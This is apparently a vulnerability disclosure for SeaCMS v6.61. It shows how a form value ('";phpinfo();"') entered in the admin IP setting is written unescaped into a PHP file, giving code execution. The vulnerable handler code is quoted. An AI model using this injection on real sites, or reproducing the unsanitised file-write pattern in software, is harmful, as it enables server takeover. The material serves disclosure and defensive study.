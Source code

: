 ###backend RCE in the latest version of SeaCMS(v6.61)
In login with admin and visit http://127.0.0.1/seacms/adm1n/admin_ip.php to set the allowed ip as 
```
";phpinfo();"

```
Then click the confirm button.

![image](3.png)

Since the write content is spliced directly based on the input in the file admin_ip.php, the malicious code we construct will be written to the file data/admin/ip.php.
```
if($action=="set")
{
	$v= $_POST['v'];
	$ip = $_POST['ip'];
	$open=fopen("../data/admin/ip.php","w" );
	$str='<?php ';
	$str.='$v = "';
	$str.="$v";
	$str.='"; ';
	$str.='$ip = "';
	$str.="$ip";
	$str.='"; ';
	$str.=" ?>";
	fwrite($open,$str);
	fclose($open);
}

```

Refresh the page(http://127.0.0.1/seacms/adm1n/admin_ip.php)，or visit the page http://127.0.0.1/seacms/data/admin/ip.php,you will getshell.

![image](4.png)